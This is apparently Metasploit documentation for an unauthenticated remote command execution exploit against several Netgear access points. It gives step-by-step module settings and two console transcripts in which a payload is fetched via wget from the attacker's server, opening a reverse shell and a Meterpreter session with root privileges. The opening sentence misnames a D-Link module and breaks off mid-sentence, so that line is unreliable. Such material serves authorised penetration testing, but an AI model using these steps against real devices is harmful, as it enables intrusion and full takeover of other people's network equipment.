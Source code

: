 The module dlink_dir850_(un)auth_exec leverages an unauthenticated arbitrary command execution vulnerability to. Netgear WN604 before 3.3.3 and WN802Tv2, WNAP210v2, WNAP320, WNDAP350, WNDAP360, and WNDAP660 before 3.5.5.0 are vulnerable. The vulnerability occurs within how the router handles POST requests from (1) boardData102.php, (2) boardData103.php, (3) boardDataJP.php, (4) boardDataNA.php, and (5) boardDataWW.php. The vulnerability was discovered by Daming Dominic Chen, creator of FIRMADYNE (https://github.com/firmadyne/firmadyne).

## Vulnerable Application


  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set SRVHOST [Your server's IP]`
  5. Do : `set LHOST [Your IP]`
  6. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp` if you want meterpreter session
  5. Do : `exploit`
  6. If router is vulnerable, payload should be dropped via wget and executed, and you should obtain a session


## Example with default payload (linux/mipsbe/shell_reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.0.100
RHOST => 192.168.0.100
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.0.99
SRVHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.0.99
LHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/netgear_unauth_exec) > 
[*] Started reverse TCP handler on 192.168.0.99:4444 
[+] Got 200 OK for boardDataNA.php
[*] Starting the web service on http://192.168.0.99:8080/IXjlVHwcHNUELM ...
[*] Using URL: http://192.168.0.99:8080/IXjlVHwcHNUELM
[*] Sending the payload to the server...
[*] Command shell session 1 opened (192.168.0.99:4444 -> 192.168.0.100:44785) at 2018-10-08 11:31:45 +0630
[+] Deleted /tmp/IXjlVHwcHNUELM

msf exploit(linux/http/netgear_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

uname -a
Linux netgear123456 2.6.32.70 #1 Thu Feb 18 01:39:21 UTC 2016 mips unknown
whoami
root
```

## Example with meterpreter (linux/mipsbe/meterpreter/reverse_tcp)

```
msf > use exploit/linux/http/netgear_unauth_exec 
msf exploit(linux/http/netgear_unauth_exec) > set RHOST 192.168.0.100
RHOST => 192.168.0.100
msf exploit(linux/http/netgear_unauth_exec) > set SRVHOST 192.168.0.99
SRVHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(linux/http/netgear_unauth_exec) > set LHOST 192.168.0.99
LHOST => 192.168.0.99
msf exploit(linux/http/netgear_unauth_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/netgear_unauth_exec) > 
[*] Started reverse TCP handler on 192.168.0.99:4444 
[+] Got 200 OK for boardDataNA.php
[*] Starting the web service on http://192.168.0.99:8080/UcyqnUAGQ ...
[*] Using URL: http://192.168.0.99:8080/UcyqnUAGQ
[*] Sending the payload to the server...
[*] Sending stage (1108408 bytes) to 192.168.0.100
[*] Meterpreter session 1 opened (192.168.0.99:4444 -> 192.168.0.100:44787) at 2018-10-08 11:34:02 +0630
[+] Deleted /tmp/UcyqnUAGQ

msf exploit(linux/http/netgear_unauth_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer     : 192.168.0.100
OS           :  (Linux 2.6.32.70)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
